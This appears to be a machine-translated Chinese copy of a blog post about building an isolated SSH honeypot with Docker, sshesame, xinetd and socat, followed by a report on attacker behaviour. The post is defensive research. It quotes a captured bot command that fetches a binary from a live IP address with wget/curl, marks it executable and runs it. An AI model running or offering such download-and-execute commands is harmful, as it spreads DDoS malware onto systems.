








# 我如何允许“黑客”通过 ssh 进入我的服务器。

> 原文：<https://medium.com/hackernoon/how-i-allowed-hackers-to-ssh-into-my-server-8e59984a491b>


Sorry for this image!

在我以前的文章中([https://hackernoon . com/how-ive-captured-all-passwords-trying-to-ssh-into-my-server-d 26 a2 a 6263 EC](https://hackernoon.com/how-ive-captured-all-passwords-trying-to-ssh-into-my-server-d26a2a6263ec))我修改了 SSH，以便打印僵尸程序或“黑客”试图攻击我的服务器的密码。

我觉得下一步就是让他们进来，所以上周我就是这么做的。

# **免责声明:**

*   他们将登录到具有最小能力的容器中
*   他们不会得到 shell，他们会得到一个 shell 的模拟(sshesame)
*   他们尝试的任何密码都将有效(以获得所有 h4ck3rs)
*   这运行在一个普通的实例上，我将在这篇文章之后销毁它
*   如果您不想阅读所有的实现，可以在文章末尾找到输出。

## **第一步码头工人:**


Docker 是显而易见的选择，但我有一些担忧，从从容器运行的攻击触发某种资源枯竭(叉炸弹，文件号等)到上传，是的上传我担心人们上传错误的内容到我服务器上的容器。

我也不想让所有的机器人登录到同一个容器，我想给每个机器人一个容器

## **第二步使 Docker 不可用:**


我将删除所有功能，然后添加我真正需要的功能:

```
docker run **--read-only** **--privileged=false** **--cap-drop all --cap-add SYS_CHROOT --cap-add SETGID --cap-add SETUID --cap-add CHOWN**  -dt bechampion/honey
```

我本来也可以限制内存的，但是我忘记了。

我用过的第二个东西是一个名为 sshesame 的项目，它是我派生的([https://github.com/bechampion/sshesame](https://github.com/bechampion/sshesame))，我做了一些修改。

基本上**ssh same**充当一个 **openssh** 服务器，模仿一个 shell，它让你进入，对于你运行的任何命令，它都不返回任何内容，例如:



这是正在运行的服务器，你可以看到我的密码是“任何东西”，实际上一切都是这样的:



这就是交易，它允许你使用任何密码，你可以运行任何你想要的命令，它们不会返回任何东西。

最后，我想禁止从容器本身访问互联网以及进入主机，因此 iptables 和 sysctl 在这方面有所帮助:

```
echo 0 > /proc/sys/net/ipv4/ip_forward
iptables -A INPUT -i docker0 -p tcp --destination-port 22 -j DROP
```

## **步骤 3 Docker 太不可用:**


经过一个小测试，我意识到大多数机器人都在运行 **uname -a** 并在完全悲伤的情况下退出，所以我分叉了 sshesame 并添加了一些命令、motds 和 PS1 提示，看看([https://github . com/bechampion/sshesame/blob/master/channel/channel . go # L46](https://github.com/bechampion/sshesame/blob/master/channel/channel.go#L46))和其他地方。

## 给每个连接一个独特的容器:



嗯，如果我使用一些正常的码头港口翻译，例如

```
docker run -dt -p 22:2222 image
```

这将把所有攻击者或机器人放在同一个容器中，但我不希望这样，我希望每个单独的机器人/攻击者都在自己的容器中。

所以 xinetd 和 socat 来帮忙了:

这就是 xinetd，**中服务的样子，记住要修改/etc/services 来匹配这个端口分配。**

因此，进入端口 22 的每个连接都将执行 honey.sh，honey.sh 看起来像:

这里最重要的是，我获得了容器 ip 并运行

```
exec /usr/bin/socat stdin tcp:${DIP}:2222,retry=60
```

这会将所有来自 xinetd 的流量发送到其本地端口中的相关容器，即 **2222**

## **第五步记录所有命令:**


在我遇到 sshesame 之前，我在想跟踪所有的容器或 auditd，auditd 会派上用场。老实说，我可以用以下命令记录所有的 execve 调用:

```
-D
-b 8192
-f 1
--backlog_wait_time 0
-a exit,always -F arch=b64 -S execve
```

我也设法从 strace 那里得到了类似的东西:

```
strace -ffffff -p 10521 -s 100000 #optional -e trace=execve
```

最终，我决定使用 sshesame 默认的 json 日志记录，它在容器中运行时是 stdout。它看起来像这样:



JSON 很棒。

## **第六步做一个 dockerfile，推上去:**


下一步是创建一个多阶段 docker 文件，该文件编译 sshesame 并将其复制到 alpine，如下所示

和

```
docker build . -t honey
```

## **这一切都可以在:**中找到

[](https://github.com/bechampion/honey) [## bechampion/蜂蜜

### 在 GitHub 上创建一个帐户，为蜂蜜开发做出贡献。

github.com](https://github.com/bechampion/honey) 

# **动作**:

我必须说，由于一些奇怪的原因，几天过去了，没有人登录，我最终会得到一个端口扫描，就是这样，但几天后，一些事情开始出现:



当我看到这个的时候，我开始认为**的名字**可能太明显了，我已经添加了我上面提到的修改。

## **几天后:**

有几天我没有看到任何有趣的东西，只是 unames 或/proc/cpuinfo …但后来事情开始出现了

## **例 1:**



```
Command":"#!/bin/sh\nPATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nwget [http://URL/ys53a\ncurl](http://104.223.213.133/ys53a\ncurl) -O [http://URL/ys53a\nchmod](http://104.223.213.133/ys53a\nchmod) +x ys53a\n./ys53a\n"
```

基本上下载一些东西，chmod 它并运行它，这些主机大多数会在几分钟后离线。

## **例二:**



同样的事情真的，但这家伙是最小心的，删除他的 bash_history，例如或

```
mv /bin/wget /bin/good (which happens to be the crap he downloaded)
```

不需要太多的细节，他们下载的文件是 elf，串起来你会得到这样的东西:



各种令人担忧的事情，insmods，cronjobs，url 请求和套接字..我运行了一些杀毒软件，它们似乎是用于 DDOS 的。

# **包装完毕:**

我希望这是一个说明你可以用 SSH 蜜罐得到什么东西的例子，公平地说，我期待一些更高级的东西，但最终却是这样..我粘贴了所有的要点，所以你可以在这里得到它:

# [](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)****[](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)****[**输出**](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)********